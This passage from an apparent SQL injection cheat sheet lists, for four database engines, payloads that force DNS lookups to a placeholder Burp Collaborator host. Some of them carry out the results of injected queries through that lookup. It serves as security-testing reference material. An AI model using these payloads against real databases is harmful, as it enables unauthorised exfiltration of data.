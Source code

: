 You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

|            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Oracle     | <p>(<a href="https://portswigger.net/web-security/xxe">XXE</a>) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:<br><br><code>SELECT EXTRACTVALUE(xmltype('&#x3C;?xml version="1.0" encoding="UTF-8"?>&#x3C;!DOCTYPE root [ &#x3C;!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual</code><br><br>The following technique works on fully patched Oracle installations, but requires elevated privileges:<br><br><code>SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')</code></p> |
| Microsoft  | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| PostgreSQL | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| MySQL      | <p>The following techniques work on Windows only:<br><br><code>LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')</code><br><code>SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code></p>                                                                                                                                                                                                                                                                                                                                                                                                                                 |

## DNS lookup with data exfiltration

You can cause the database to perform a DNS lookup to an external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to retrieve details of any DNS interactions, including the exfiltrated data.

|            |                                                                                                                                                                                                                                                                                            |
| ---------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| Oracle     | `SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'\|(SELECT YOUR-QUERY-HERE)\|'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual`                                                                          |
| Microsoft  | `declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')`                                                                                                                                                             |